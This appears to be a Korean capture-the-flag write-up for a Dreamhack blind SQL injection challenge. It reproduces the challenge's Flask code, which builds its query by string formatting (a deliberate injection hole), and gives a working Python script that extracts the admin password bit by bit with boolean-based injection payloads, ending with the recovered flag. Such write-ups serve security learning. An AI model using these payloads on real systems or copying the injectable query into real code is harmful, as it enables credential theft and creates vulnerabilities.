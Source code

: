 ## Blind SQL Injection Advanced
<hr style="border-top: 1px solid;"><br>

```python
import os
from flask import Flask, request, render_template_string
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'user_db')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM users WHERE uid='{{uid}}';</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
{% if nrows == 1%}
    <pre style="font-size:150%">user "{{uid}}" exists.</pre>
{% endif %}
'''

@app.route('/', methods=['GET'])
def index():
    uid = request.args.get('uid', '')
    nrows = 0

    if uid:
        cur = mysql.connection.cursor()
        nrows = cur.execute(f"SELECT * FROM users WHERE uid='{uid}';")

    return render_template_string(template, uid=uid, nrows=nrows)


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

<br>

```php
CREATE DATABASE user_db CHARACTER SET utf8;
GRANT ALL PRIVILEGES ON user_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `user_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO users (uid, upw) values ('admin', 'DH{**FLAG**}');
INSERT INTO users (uid, upw) values ('guest', 'guest');
INSERT INTO users (uid, upw) values ('test', 'test');
FLUSH PRIVILEGES;

```

<br>

![image](https://user-images.githubusercontent.com/52172169/161065444-91705e02-5003-4878-9cf6-d562df1a6669.png)

<br>

관리자의 비밀번호는 "아스키코드"와 "한글"로 구성되어 있습니다.

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

upw 길이는 27이라고 생각할 수 있으나 한글 즉, unicode가 껴있기 때문에 확실하지 않다.

비밀번호의 정확한 길이는 char_length 함수를 이용해서 구할 수 있다.

CHAR_LENGTH 함수는 문자의 Byte 수를 계산하지 않고 단순히 몇 개의 문자가 있는지를 가져오는 함수

<br>

따라서 ascii 함수 대신에 멀티바이트 문자도 계산해주는 ord 함수를 사용해야 한다.

아스키코드 값은 1바이트(8비트), 멀티바이트는 2바이트(16비트), n바이트이다.

```python
import requests

url='http://host1.dreamhack.games:{port}/'
headers={'Content-Type':'application/x-www-form-urlencoded'}

upw='DH{'

for i in range(4,50): # 비밀번호 길이는 char_length로 정확하게 구할 수 있었음
	bit_len=0
	for j in range(1,33):
		payload={'uid':"admin' and if(length(bin(ord(substr(upw,"+str(i)+",1))))="+str(j)+",1,0)#"}
		res=requests.get(url, headers=headers, params=payload)
		if "exists" in res.text:
			bit_len=j
			break
			
	print("bit_len : "+str(bit_len))
	sub_bit=''
	for k in range(1,bit_len+1):
		payload={'uid':"admin' and if(substr(bin(ord(substr(upw,"+str(i)+",1))),"+str(k)+",1)=1,1,0)#"}
		res=requests.get(url,headers=headers, params=payload)
		if "exist" in res.text:
			sub_bit+='1'
		else:
			sub_bit+='0'

	print("bit: {}".format(sub_bit))
	# upw+=chr(int(sub_bit,2))
	upw+=int.to_bytes(int(sub_bit,2),(bit_len+7)//8, "big").decode("utf-8") # 기본 8bit 단위로 나누는 것
	print("upw : {}".format(upw))
```

<br>

Rubiya의 XAVIS 문제를 풀 때도 비밀번호가 멀티바이트인 한글로 되어있어서 chr을 이용해서 바꿨었는데 그 때는 16bit여서 chr로 충분히 가능했던 것 같다.

16bit은 chr이 변환 가능한 값의 최대값인 0x110000(```1 0001 0000 0000 0000 0000```)에서 벗어나지 않기 때문이다.

이번에는 24bit이기도 했고, 0x110000에도 벗어나서 chr로는 할 수 없었던 것. 

웬만하면 정수를 바이트로 변환할 때는 ```int.to_bytes```를 이용하는 것이 편할 것 같다.

<br>

+ Flag : ```DH{이것이비밀번호!?}```

<br><br>
<hr style="border: 2px solid;">
<br><br>
